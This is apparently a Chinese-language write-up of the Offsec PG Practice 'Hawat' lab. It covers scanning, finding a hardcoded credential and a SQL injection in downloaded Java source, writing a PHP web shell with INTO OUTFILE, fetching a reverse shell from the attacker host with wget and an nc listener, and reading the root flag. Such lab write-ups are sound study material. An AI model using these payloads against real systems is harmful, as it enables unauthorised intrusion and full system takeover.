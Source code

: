 ###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# Hawat
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.233.147 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.233.147:22
Open 192.168.233.147:17445
Open 192.168.233.147:30455
Open 192.168.233.147:50080

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.4 (protocol 2.0)
17445/tcp open  unknown syn-ack
30455/tcp open  http    syn-ack nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: W3.CSS
| http-methods: 
|_  Supported Methods: GET HEAD POST
50080/tcp open  http    syn-ack Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

`dirsearch`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ dirsearch -u http://192.168.233.147:50080

[23:01:55] 301 -  239B  - /4  ->  http://192.168.233.147:50080/4/           
[23:02:04] 301 -  243B  - /cloud  ->  http://192.168.233.147:50080/cloud/   
[23:02:05] 302 -    0B  - /cloud/  ->  http://192.168.233.147:50080/cloud/index.php/login
[23:02:08] 403 -  994B  - /error/                                           
[23:02:11] 301 -  244B  - /images  ->  http://192.168.233.147:50080/images/ 
[23:02:11] 200 -    1KB - /images/                                          
```

`buster`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ gobuster dir -u http://192.168.233.147:30455 -w /home/kali/SecLists/Discovery/Web-Content/common.txt

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/4                    (Status: 301) [Size: 169] [--> http://192.168.233.147:30455/4/]
/index.php            (Status: 200) [Size: 3356]
/phpinfo.php          (Status: 200) [Size: 68608]
Progress: 4727 / 4727 (100.00%)
```

有`http://192.168.233.147:50080/cloud`，可以用`admin/admin`登入，進去裡面下載`issuetracker.zip`，解壓縮後查看`/issuetracker/src/main/java/com/issue/tracker/issues/IssueController.java`
```java
@GetMapping("/issue/checkByPriority")
	public String checkByPriority(@RequestParam("priority") String priority, Model model) {
		// 
		// Custom code, need to integrate to the JPA
		//
	    Properties connectionProps = new Properties();
	    connectionProps.put("user", "issue_user");
	    connectionProps.put("password", "ManagementInsideOld797");
        try {
			conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
		    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
            System.out.println(query);
		    Statement stmt = conn.createStatement();
		    stmt.executeQuery(query);

        } catch (SQLException e1) {
			// TODO Auto-generated catch block
			e1.printStackTrace();
		}
```

查看`http://192.168.233.147:30455/phpinfo.php`可得
```
$_SERVER['DOCUMENT_ROOT'] /srv/http
```

查看`http://192.168.233.147:17445`，我也是用`admin/admin`可登入，進去後查看`http://192.168.233.147:17445/issue/checkByPriority`並用burpsuite查看，發現`status code`是405，改成`POST`可以變成400
```
## Request
GET /issue/checkByPriority HTTP/1.1

## Response
HTTP/1.1 405 
<div>There was an unexpected error (type=Method Not Allowed, status=405).</div>
```

參考[Use SQL Injection to Run OS Commands & Get a Shell](https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/)
```
' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/cmd.php' #

## Request
POST /issue/checkByPriority?priority=%27%20union%20select%20%27%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%20%3F%3E%27%20into%20outfile%20%27%2Fsrv%2Fhttp%2Fcmd.php%27%20%23 HTTP/1.1

## Response
HTTP/1.1 200 
```

前往`http://192.168.233.147:30455/cmd.php?cmd=whoami`可得
```
root
```

上傳shell.php
```
192.168.233.147:30455/cmd.php?cmd=wget%20192.168.45.179:17445/shell.php

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp22

http://192.168.233.147:30455/shell.php
```

得root shell，去/root得proof.txt
```
sh-5.1# cat proof.txt
71e6c676f814fc5140d87f54e1228ec2
```